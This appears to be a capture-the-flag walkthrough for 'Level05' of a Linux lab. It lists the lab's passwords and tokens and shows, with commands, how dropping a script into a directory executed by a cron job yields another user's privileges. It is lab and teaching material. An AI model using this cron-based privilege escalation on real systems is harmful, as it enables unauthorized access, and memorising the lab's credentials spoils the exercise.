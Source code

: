# Level05 - Flag05

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level05 | `ne2searoevaevoem4ov4ar8ap` |
| flag05  |                             |
| token   | `viuaaale9huek52boumoomioc` |

## Steps to resolve on VM

1. Connect to `level05` user and notice there is a new mail

```bash
su level05
# Enter the token
> You have new mail.
```

2. Check the mail

```bash
cat /var/mail/level05
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
# We can notice that we have a cron job schedule
# Every 2 minutes, it will execute a script at '/usr/sbin/openarenaserver' with flag05 user
```

3. Check the cron job

```bash
# By listing this script we notice the '+' permission, which means 'extended permissions"
ls -l /usr/sbin/openarenaserver
> -rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver

# Indeed, we can check that it has the same permissions from flag05 user
getfacl /usr/sbin/openarenaserver
> getfacl: Removing leading '/' from absolute path names
> # file: usr/sbin/openarenaserver
> # owner: flag05
> # group: flag05
> user::rwx
> user:level05:r--
> group::r-x
> mask::r-x
> other::---

cat /usr/sbin/openarenaserver
> #!/bin/sh
>
> for i in /opt/openarenaserver/* ; do
>        (ulimit -t 5; bash -x "$i")
>        rm -f "$i"
> done
# This script is going to execute everyscripts inside /opt/openarenaserver/
# And then delete it

```

4. Prepare the script to be launched with crontab and get the flag05

```bash
# First add the cron job into crontab
(crontab -l ; cat /var/mail/level05)| crontab -

# Then create the script in the cron job scripts location
echo "getflag > /tmp/flag05" > /opt/openarenaserver/script
chmod +x /opt/openarenaserver/script

# Then display the output after 2 minutes because of the cron job schedule
sleep 2m && cat /tmp/flag05
> [1]-  Done                    sleep 2m
> Check flag.Here is your token : viuaaale9huek52boumoomioc
```

---

## Sources

### SHELL

- [Cron editor](https://crontab.guru/#*/2_*_*_*_*)
- [Crontab intro](https://www.linuxtricks.fr/wiki/cron-et-crontab-le-planificateur-de-taches)
- [Crontab add job](https://stackoverflow.com/questions/8579330/appending-to-crontab-with-a-shell-script-on-ubuntu)
- [ulimit](https://linuxhint.com/linux_ulimit_command/)
- ['+' at the end of permissions](https://serverfault.com/questions/227852/what-does-a-mean-at-the-end-of-the-permissions-from-ls-l)